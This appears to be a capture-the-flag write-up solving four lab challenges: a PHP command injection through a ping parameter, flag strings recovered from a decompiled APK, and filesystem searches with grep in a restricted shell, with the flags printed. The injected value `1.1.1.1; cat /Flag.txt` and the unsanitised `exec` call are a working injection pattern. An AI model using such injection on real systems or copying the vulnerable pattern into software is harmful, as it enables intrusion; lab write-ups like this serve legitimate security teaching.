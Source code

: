 # Ryan CTF: Advanced

### Input Validation

This is a simple command injection, the php is executing the line `exec("ping -c 4 " . $_GET["ip"], $out);`, with the `GET` parameter `ip` that we control.
This way, similarly to SQL injection, we can end the `ping` command with a semicolon `;` (in linux) and the write the second command afterwards. 
Let's try to give the input `1.1.1.1; cat /Flag.txt`, we get 

```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data. 
64 bytes from 1.1.1.1: icmp_seq=1 ttl=55 time=13.0 ms 
64 bytes from 1.1.1.1: icmp_seq=2 ttl=55 time=12.3 ms 
64 bytes from 1.1.1.1: icmp_seq=3 ttl=55 time=12.2 ms 
64 bytes from 1.1.1.1: icmp_seq=4 ttl=55 time=12.3 ms 

--- 1.1.1.1 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3003ms 
rtt min/avg/max/mdev = 12.253/12.502/13.068/0.338 ms 
Flag: pluripresence 
```


### These are not the droids...

We can decompile the APK with `apktool d` command, then navigate to `smali`, `yanl`, `helloworld`, which seems to be the path to the source code.
We have a few class files in there, let's do a `grep -ri "flag" .` just to make sure.
And yes, we've got the string `./BuildConfig.smali:.field public static final FLAG:Ljava/lang/String; = "FLAG: harmonograph"`


### Find the Flag(.txt)

Looks like we don't directly have access to `find` or other commands, which may be sad, but what we have is `/bin/grep` and it can do a lot of useful stuff.
Let's do a `/bin/grep -ri "flag"` on directories starting from `/`. First, do a `/bin/ls /` to see what dirs we have and try each one.
After a few searches `/bin/grep -ri "flag" /lib` gives us the line `/lib/x86_x64-linux-gnu/security/Flag.txt:FLAG: minuend`

### Find the Flag(.txt) Again
The same trick works for the second challenge and we find the flag in the `etc` folder
`/etc/go/ing/down/the/rabbit/hole/to/find/the/flag/Flag.txt:FLAG: muntjac`